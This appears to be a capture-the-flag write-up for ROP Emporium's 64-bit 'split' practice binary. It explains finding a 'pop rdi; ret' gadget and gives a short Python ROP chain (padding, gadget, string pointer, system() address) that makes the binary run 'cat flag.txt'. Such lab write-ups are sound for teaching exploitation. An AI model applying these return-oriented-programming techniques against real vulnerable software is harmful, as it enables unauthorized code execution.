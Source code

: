 # split-64 bit
this is the second challange of the series.    
this time we officially begin our ROP journey. 
![start](https://user-images.githubusercontent.com/60041914/78274381-cc91e600-7518-11ea-91bb-94e1be264290.png)  
our goal according to the instructions at https://ropemporium.com/ is to call system() with "cat flag.txt"     
which is already inside the binary(we have it easy this time)   
![str](https://user-images.githubusercontent.com/60041914/78274656-3611f480-7519-11ea-88bd-102c8c03b29d.png)

here is the original call to system.    
![fuc](https://user-images.githubusercontent.com/60041914/78274508-02cf6580-7519-11ea-8769-e64895616cc4.png)

we see that edi is used as a pointer to the command.   
so our goal is clear. we need to craft a rop chain that puts the address of "cat flag.txt"    
in edi and calls system.          
using ROPgadget we find a useful gadget:
```nasm
0x0000000000400883 : pop rdi , ret
```
and craft a rop chain with it:    
```python

CAT_FLAG=0x00601060 #pointer to bash command to print flag
SYSTEM_ADDR=0x00400810  #place where system is called

exploit=b'A'*40
exploit+=p64(0x00400883)    #pop rdi 
exploit+=p64(CAT_FLAG)  #value of rdi after pop
exploit+=p64(SYSTEM_ADDR)   #call to system
```
pwned.   
![pwned](https://user-images.githubusercontent.com/60041914/78275394-3c54a080-751a-11ea-9614-aa5348b49266.png)
